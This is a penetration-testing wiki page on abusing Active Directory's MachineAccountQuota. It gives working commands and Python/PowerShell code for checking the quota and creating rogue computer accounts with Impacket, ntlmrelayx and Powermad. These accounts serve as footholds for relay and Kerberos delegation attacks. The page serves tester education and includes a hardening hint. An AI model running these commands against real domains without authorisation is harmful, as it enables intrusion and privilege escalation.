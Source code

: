 # MachineAccountQuota

## Theory

> MachineAccountQuota (MAQ) is a domain level attribute that by default permits unprivileged users to attach up to 10 computers to an Active Directory (AD) domain ([source](https://blog.netspi.com/machineaccountquota-is-useful-sometimes/))

## Practice

There are multiple ways attackers can leverage that power.

* [Force client authentications](../mitm-and-coerced-authentications/), [relay those authentications](../ntlm/relay.md) to domain controllers using LDAPS, and take advantage of authenticated sessions to create a domain computer account. This account can then be used as a foothold on the AD domain to operate authenticated recon (i.e. [with BloodHound](../../recon/bloodhound.md) for example)
* Create a computer account and use it for [Kerberos RBCD attacks](../kerberos/delegations/#resource-based-constrained-delegations-rbcd) when leveraging owned accounts with sufficient permissions (i.e. ACEs like `GenericAll`, `GenericWrite` or `WriteProperty`) against a target machine
* Create a computer account and use it for a [Kerberos Unconstrained Delegation](../kerberos/delegations/#unconstrained-delegations) attack when leveraging owned accounts with sufficient permissions (i.e. the `SeEnableDelegationPrivilege` user right)
* Profit from special rights that members of the Domain Computers group could inherit
* Profit from special rights that could automatically be applied to new domain computers based on their account name

### Check the value

{% tabs %}
{% tab title="UNIX-like" %}
The [MachineAccountQuota](https://github.com/ShutdownRepo/CrackMapExec-MachineAccountQuota) module (for [CrackMapExec](https://github.com/mpgn/CrackMapExec)) can be used to check the value of the MachineAccountQuota attribute.

```bash
cme ldap $DOMAIN_CONTROLLER -d $DOMAIN -u $USER -p $PASSWORD -M maq
```

Alternatively, it can be done manually with the following Python code.

```bash
import ldap3

target_dn = "DC=domain,DC=local" # change this
domain = "domain" # change this
username = "username" # change this
password = "password" # change this

user = "{}\\{}".format(domain, username)
server = ldap3.Server(domain)
connection = ldap3.Connection(server = server, user = user, password = password, authentication = ldap3.NTLM)
connection.bind()
connection.search(target_dn,"(objectClass=*)", attributes=['ms-DS-MachineAccountQuota'])
print(connection.entries[0])
```
{% endtab %}

{% tab title="Windows" %}
In order to run the following commands and tools as other users, testers can check the [user impersonation](../credentials/impersonation.md) part.

The following command, using the [PowerShell ActiveDirectory module](https://docs.microsoft.com/en-us/powershell/module/addsadministration/?view=win10-ps)'s cmdlets Get-ADDomain and Get-ADObject, will help testers make sure the controlled domain user can create computer accounts (the MachineAccountQuota domain-level attribute needs to be set higher than 0. It is set to 10 by default).

```bash
Get-ADDomain | Select-Object -ExpandProperty DistinguishedName | Get-ADObject -Properties 'ms-DS-MachineAccountQuota'
```
{% endtab %}
{% endtabs %}

### Create a computer account

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [addcomputer](https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py) (Python) can be used to create a computer account, using the credentials of a domain user the the MachineAccountQuota domain-level attribute is set higher than 0 (10 by default).

```bash
addcomputer.py -computer-name 'SHUTDOWN$' -computer-pass 'SomePassword' -dc-host $DomainController -domain-netbios $DOMAIN 'DOMAIN\anonymous:anonymous'
```

Testers can also use [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) instead with the `--add-computer` option, like [this](https://arkanoidctf.medium.com/hackthebox-writeup-forest-4db0de793f96)

{% hint style="info" %}
When using [Impacket](https://github.com/SecureAuthCorp/impacket)'s addcomputer script for the creation of a computer account, the "SAMR" method is used by default (instead of the LDAPS one). At the time of writing (10th of December, 2021), the SAMR method creates the account without SPNs.
{% endhint %}
{% endtab %}

{% tab title="Windows" %}
The [Powermad](https://github.com/Kevin-Robertson/Powermad) module (PowerShell) can be used to create a domain computer account.

```bash
$password = ConvertTo-SecureString 'SomePassword' -AsPlainText -Force
New-MachineAccount -MachineAccount 'PENTEST01' -Password $($password) -Verbose
```

While the machine account can only be deleted by doman administrators, it can be deactivated by the creator account with the following command using the Powermad module.

```bash
Disable-MachineAccount -MachineAccount 'PENTEST01' -Verbose
```
{% endtab %}
{% endtabs %}

{% hint style="info" %}
Testers need to be aware that the MAQ attribute set to a non-zero value doesn't necessarily mean the users can create machine accounts. The right to add workstations to a domain can in fact be changed in the Group Policies. `Group Policy Management Console (gpmc.msc) > Domain Controllers OU > Domain Controllers Policy > Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies > User Rights Assigments > Add workstations to domain`
{% endhint %}

## Resources

{% embed url="https://blog.netspi.com/machineaccountquota-is-useful-sometimes/" %}

{% embed url="https://www.harmj0y.net/blog/activedirectory/the-most-dangerous-user-right-you-probably-have-never-heard-of/" %}

{% embed url="https://social.technet.microsoft.com/wiki/contents/articles/5446.active-directory-how-to-prevent-authenticated-users-from-joining-workstations-to-a-domain.aspx" %}
